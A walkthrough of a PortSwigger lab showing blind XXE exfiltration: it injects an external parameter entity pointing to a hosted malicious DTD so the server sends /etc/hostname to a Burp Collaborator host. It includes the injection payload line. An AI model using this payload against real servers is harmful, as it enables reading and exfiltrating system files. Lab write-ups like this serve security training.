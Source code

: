 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/6bccb6ca-ce90-40df-89e7-73056421d1ee)

## Solution:

Using Burp Suite Professional, go to the Collaborator tab. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Place the Burp Collaborator payload into a malicious DTD file:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/815558e5-2daf-44a9-88ae-5375d3e92e9d)


Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
https://exploit-0a59002a04195a5686f356d401960080.exploit-server.net/exploit

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/2f1b91d4-1104-4902-9ecd-3b639733e46d)

You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/a6d08034-848b-4dda-8aa1-262cd3d9e072)

Insert the following external entity definition in between the XML declaration and the stockCheck element:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/242033bc-1264-4e61-82af-d8667e3ade3f)

You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the /etc/hostname file.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/ea59525a-3f96-4216-97af-731396005423)

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/7c271f7e-981d-41a9-8014-042775a802e1)

Lab Solved

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/78f2d505-d7e1-42c6-82f0-e0b62beadcc8)


